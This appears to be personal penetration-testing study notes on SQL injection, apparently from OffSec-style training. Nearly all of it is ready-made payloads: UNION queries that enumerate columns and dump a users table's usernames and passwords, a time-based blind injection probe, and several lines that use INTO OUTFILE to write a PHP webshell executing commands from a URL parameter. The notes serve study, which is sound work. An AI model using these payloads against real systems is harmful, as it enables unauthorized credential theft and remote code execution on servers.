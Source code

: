 
**UNION-based SQLi:**

Requirements:
- UNION query must include same number of columns as the original query
- Data types need to be compatible with each column

Determine correct number of columns:
```bash
' ORDER BY 1-- //
```
>[!info]
>Repeat until an error is thrown
>- If 6 throws an error 5 columns are present!

Example payload:
```bash
' UNION SELECT database(), user(), @@version, null, null -- //
```
>[!info]
>DB name not visible as data is not printed on the form (ID parameter)

Update payload 
```bash
' UNION SELECT null, null, database(), user(), @@version  -- //
```

Retrieve databases and columns:
```bash
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Dump users table:
```bash
' UNION SELECT null, username, password, description, null FROM users -- //
```

---

**Blind SQLi:**

Use an IF condition with sleep statement to get feedback from the server:  
```bash
offsec' AND IF (1=1, sleep(3),'false') -- //
```
>[!info]
>Sleeps for 3 seconds as the offsec user exists

---

**SQLi to RCE:**

If we have SQL Injection we can write a PHP webshell to the /var/www/html folder [Guide](https://aditya-chauhan17.medium.com/sql-injection-to-rce-dd538d49a7f)
```shell
# Select
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE "/var/www/html/shell.php"

# Union select
' UNION SELECT '<?php system($_GET['cmd']); ?>' INTO OUTFILE '/var/www/html/shell.php'; #

' union select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/html/shell.php"; -- 

# Use the appropriate amount of columns
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //

'# SQL server shell
mysql> Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
